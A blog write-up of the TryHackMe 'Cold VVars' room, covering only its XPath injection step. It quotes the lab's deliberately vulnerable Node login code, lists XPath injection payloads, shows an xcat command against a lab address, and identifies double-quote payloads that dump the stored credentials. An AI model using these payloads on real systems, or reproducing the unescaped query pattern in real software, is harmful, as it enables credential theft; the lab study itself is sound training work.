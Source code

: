 ```yaml
---
layout: post
title:  "THM: Cold VVars"
date:   2021-07-11 19:00:00 +1000
category: hacking
---
```


## THM: Cold VVars
This is [Cold VVars](https://tryhackme.com/room/coldvvars) from THM. It's Medium rated and I barely knew what was going on - I had to get some hints.

## Ports
This has SMB plus two HTTP ports, on 8080 and 8082. We're going to exploit a login page with XPath Injection.

## XPath Injection
I hadn't done this before. We have a node app, with credentials saved in *creds.xml*. This is the app:

{% highlight js %}
#!/usr/bin/node
const express = require("express");
const path = require("path");
const fs = require('fs');
const app = express();
const bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({ extended: true }));
var xpath = require('xpath')
  , dom = require('xmldom').DOMParser;

const port = 8082

var Path= __dirname+"/files/"

app.use('/static', express.static("public"))

app.get('/',function(req,res){
     res.sendFile(Path+'index.html');
});

app.get('/login',function(req,res){
    res.sendFile(Path+'login.html');
});

app.post('/login',function(req,res){
    console.log(req.body);
    fs.readFile('./creds.xml', 'utf8' , (err, data) => {
      if (err) {
      console.error(err)
      return
      }
      var doc = new dom().parseFromString(data);
      console.log(req.body.username);
      var s='//user[username="'+req.body.username+'"+and password="'+req.body.password+'"]/password/text()'
      console.log(s);
      var test="Username Password<br>";
      try{
      var nodes = xpath.select('//user[username="'+req.body.username+'"and password="'+req.body.password+'"]/password/text()', doc)
      var nodes1 = xpath.select('//user[username="'+req.body.username+'"and password="'+req.body.password+'"]/username/text()', doc)
      if(nodes && nodes.length>0){
         for(var i=0;i<nodes.length;i++){
            test+=nodes1[i].data
            test+="             "
            test+=nodes[i].data
            test+="<br>"
         }
         console.log(test);
         res.send(test);
      }
      else{
         res.send("Username or Password Wrong");
      }
     }catch(e){
          res.send("Internal Error")
      }
    })
});

app.listen(port,'0.0.0.0');
{% endhighlight %}

These are (all!) the payload examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection):

```
' or '1'='1  
' or ''='  
x' or 1=1 or 'x'='y  
/  
//  
//*  
*/*  
@*  
count(/child::node())  
x' or name()='username' or 'x'='y  
' and count(/*)=1 and '1'='1  
' and count(/@*)=1 and '1'='1  
' and count(/comment())=1 and '1'='1  
search=')] | //user/*[contains(*,'  
search=Har') and contains(../password,'c  
search=Har') and starts-with(../password,'c  
```

**None** of these will trigger the vulnerability. Payloads mentions [xcat](https://github.com/orf/xcat). I install it, but can't trigger the vulnerability with it either. Note the example below is just one go; I had many others but the same results.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/cold_vvars]
└─# xcat run http://10.10.243.225:8082/login -m POST submit {username=User,password=Pass,submit=Login} --encode=form --true-string='!Username or Password Wrong' 
Error: No injections detected
{% endhighlight %}

Let's step back. We know it's XPath Injection because it's tagged in the room. OWASP explains the technique [here](https://owasp.org/www-community/attacks/XPATH_Injection). Here is a payload that works:

```
" or 1=1 or "
```

When this payload is used in the username field, the app dumps the contents of the *creds.xml* file. It does **not** work if the double quotes are replaced with single quotes; note that the examples from PayloadsAllTheThings **all** have single quotes and not double.

This is (I believe) because the vulnerable code in the app:

```
var nodes = xpath.select('//user[username="'+req.body.username+'"and password="'+req.body.password+'"]/password/text()', doc)
```

uses paired single quotes to separate the string, and unpaired double quotes inside; therefore adding a double quote in the submitted string breaks the logic. Single single quotes and double quotes are basically interchangeable in JS (and Python etc), the XPath Injection examples at OWASP and others that use paired double outer quotes and unpaired inner single quotes, eg:

```
FindUserXPath = "//Employee[UserName/text()='" + Request("Username").Replace("'", "&apos;") + "' And
        Password/text()='" + Request("Password").Replace("'", "&apos;") + "']";
```

would presumably be vulnerable to the sorts of syntax from PayloadsAllTheThings, but not this webapp. Interesting, eh?
		
Looking through the source of *xcat* it appears that xcat *should* handle both double and single quotes but I couldn't get it to work even when I knew what the payload was. 

Going back, what if we take the example payloads from before and replace the single quotes with double quotes? If we do, we find this:

```
x" or 1=1 or "x"="y  
```

works! Whereas the single quote version didn't. There is an important lesson here and a good bit of exposure to a technique I hadn't used before. For the rest of this box, you're on your own.
